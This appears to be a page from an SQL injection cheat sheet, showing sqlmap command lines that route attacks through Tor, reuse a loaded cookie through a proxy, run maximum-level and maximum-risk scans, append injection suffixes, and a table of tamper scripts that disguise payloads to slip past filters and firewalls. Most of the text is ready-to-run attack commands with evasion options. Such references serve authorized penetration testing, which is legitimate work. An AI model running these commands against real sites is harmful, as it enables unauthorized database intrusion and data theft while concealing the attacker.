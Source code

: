 ### Using TOR with SQLmap

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### Using Chrome cookie and a Proxy

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

### Using suffix to tamper the injection

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### General tamper option and tamper's list

```powershell
tamper=name_of_the_tamper
```

| Tamper | Description |
| --- | --- |
|0x2char.py | Replaces each (MySQL) 0x<hex> encoded string with equivalent CONCAT(CHAR(),…) counterpart |
|apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
|apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart|
|appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
|base64encode.py | Base64 all characters in a given payload  |
|between.py | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' |
|bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator  |
|chardoubleencode.py | Double url-encodes all characters in a given payload (not processing already encoded) |
|charencode.py | URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54) |
|charunicodeencode.py | Unicode-URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054) |
|charunicodeescape.py | Unicode-escapes non-encoded characters in a given payload (not processing already encoded) (e.g. SELECT -> \u0053\u0045\u004C\u0045\u0043\u0054) |
|commalesslimit.py | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'|
|commalessmid.py | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'|
|commentbeforeparentheses.py | Prepends (inline) comment before parentheses (e.g. ( -> /**/() |
|concat2concatws.py | Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'|
|charencode.py | Url-encodes all characters in a given payload (not processing already encoded)  |
|charunicodeencode.py | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)  |
|equaltolike.py | Replaces all occurances of operator equal ('=') with operator 'LIKE'  |
|escapequotes.py | Slash escape quotes (' and ") |
|greatest.py | Replaces greater than operator ('>') with 'GREATEST' counterpart |
|halfversionedmorekeywords.py | Adds versioned MySQL comment before each keyword  |
|htmlencode.py | HTML encode (using code points) all non-alphanumeric characters (e.g. ‘ -> &#39;) |